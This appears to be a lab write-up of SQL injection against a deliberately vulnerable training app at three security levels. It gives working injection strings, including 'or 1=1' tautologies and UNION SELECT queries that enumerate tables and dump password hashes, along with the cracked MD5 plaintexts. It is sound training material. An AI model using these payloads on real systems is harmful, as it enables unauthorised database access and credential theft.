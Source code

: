 Objective
There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi.

>[!important] Security is Set to Low

SQL injection is where an attacker is able to manipulate database queries made by an application.
![[Pasted image 20231010211752.png]]


```
1' or 1=1# 
```
We get the data of all the user with this sql command
![[Pasted image 20231010212031.png]]

Let's fire up BurpSuite so that we can dig deeper and get the password
```
1' union select null,table_name from information_schema.tables#
```
![[Pasted image 20231010213634.png]]
We got the user table name from this and will also get the columns name as well
```
1' union select null,column_name from information_schema.columns#
user_id
```

Finally we got the password hash
```
1' union select user_id,password from users#
```
![[Pasted image 20231010214249.png]]
```
5f4dcc3b5aa765d61d8327deb882cf99
password

e99a18c428cb38d5f260853678922e03
abc123

8d3533d75ae2c3966d7e0d4fcc69216b
charley

0d107d09f5bbe40cade3de5c71e9e9b7
letmein

5f4dcc3b5aa765d61d8327deb882cf99
password
```
It's md5 hashes we can crack them using hashcat or online tools 
![[Pasted image 20231010214436.png]]


>[!important] Let's now change the level to medium and will see if any check are being happening now:

Now for this we have to run the burpsuite as we don't have any option here
```
1 or 1=1# 
```
![[Pasted image 20231010215429.png]]

Yes with a little tweaks the command worked as we are not using any quotes
![[Pasted image 20231010221803.png]]

Let's simply the password
```
1 union select user_id,password from users#
```
![[Pasted image 20231010221927.png]]

The rest of the process is same so will skip it here. And remember that here we have to add URL encode character which we can do by simply pressing Ctrl + u



>[!important] Let's change the level to High

Let's see what's happening in high will go through the code 1st 
So what's happening here is that when we click on the click it opens up a site where we have to submit the query 
and when we close it and query is checked and run on the main site
![[Pasted image 20231010222609.png]]

![[Pasted image 20231010222621.png]]

But the query is running so it's of not use i thing so
![[Pasted image 20231010222651.png]]

![[Pasted image 20231010222756.png]]

got the password i don't know but with little tweaks here and there i was able to exploit it.

Resources:
https://appsecexplained.gitbook.io/appsecexplained/common-vulns/injection/sql-injection-overview
https://www.youtube.com/watch?v=5bj1pFmyyBA

